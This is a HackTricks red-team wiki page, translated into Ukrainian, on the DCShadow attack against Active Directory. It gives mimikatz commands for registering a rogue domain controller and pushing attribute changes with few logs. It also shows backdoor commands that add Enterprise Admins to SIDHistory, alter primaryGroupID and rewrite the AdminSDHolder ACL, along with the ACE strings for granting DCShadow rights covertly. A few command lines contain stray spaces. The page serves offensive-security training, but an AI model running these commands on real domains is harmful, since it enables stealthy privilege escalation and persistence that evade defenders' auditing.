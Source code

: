 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# DCShadow

Він реєструє **новий контролер домену** в AD і використовує його для **пушу атрибутів** (SIDHistory, SPNs...) на вказані об'єкти **без** залишення будь-яких **логів** щодо **модифікацій**. Вам **потрібні DA** привілеї і ви повинні бути всередині **кореневого домену**.\
Зверніть увагу, що якщо ви використовуєте неправильні дані, з'являться досить неприємні логи.

Щоб виконати атаку, вам потрібно 2 екземпляри mimikatz. Один з них запустить RPC сервери з привілеями SYSTEM (тут потрібно вказати зміни, які ви хочете виконати), а інший екземпляр буде використаний для пушу значень:

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - Потрібен DA або подібний" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

Зверніть увагу, що **`elevate::token`** не працюватиме в сесії `mimikatz1`, оскільки це підвищило привілеї потоку, але нам потрібно підвищити **привілей процесу**.\
Ви також можете вибрати об'єкт "LDAP": `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Ви можете внести зміни від DA або від користувача з цими мінімальними правами:

* В **об'єкті домену**:
* _DS-Install-Replica_ (Додати/Видалити репліку в домені)
* _DS-Replication-Manage-Topology_ (Управління топологією реплікації)
* _DS-Replication-Synchronize_ (Синхронізація реплікації)
* **Об'єкт сайтів** (та його нащадки) в **контейнері конфігурації**:
* _CreateChild and DeleteChild_
* Об'єкт **комп'ютера, який зареєстрований як DC**:
* _WriteProperty_ (Не записувати)
* **Цільовий об'єкт**:
* _WriteProperty_ (Не записувати)

Ви можете використовувати [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1), щоб надати ці привілеї непривілейованому користувачу (зверніть увагу, що це залишить деякі журнали). Це набагато більш обмежувально, ніж мати привілеї DA.\
Наприклад: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  Це означає, що ім'я користувача _**student1**_ при вході в систему на машині _**mcorp-student1**_ має права DCShadow на об'єкт _**root1user**_.

## Використання DCShadow для створення бекдорів

{% code title="Встановити Enterprise Admins в SIDHistory для користувача" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="Змінити PrimaryGroupID (додати користувача до групи Domain Administrators)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="Змінити ntSecurityDescriptor AdminSDHolder (надати повний контроль користувачу)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - Надати DCShadow дозволи за допомогою DCShadow (без змінених журналів дозволів)

Нам потрібно додати наступні ACE з SID нашого користувача в кінці:

* На об'єкті домену:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* На об'єкті комп'ютера атакуючого: `(A;;WP;;;UserSID)`
* На об'єкті цільового користувача: `(A;;WP;;;UserSID)`
* На об'єкті Сайти в контейнері Конфігурація: `(A;CI;CCDC;;;UserSID)`

Щоб отримати поточний ACE об'єкта: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=loca l")).psbase.ObjectSecurity.sddl`

Зверніть увагу, що в цьому випадку вам потрібно зробити **кілька змін,** а не лише одну. Тому, в **сесії mimikatz1** (RPC сервер) використовуйте параметр **`/stack` з кожною зміною,** яку ви хочете внести. Таким чином, вам потрібно буде **`/push`** лише один раз, щоб виконати всі накопичені зміни на роговому сервері.



[**Більше інформації про DCShadow на ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)


{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

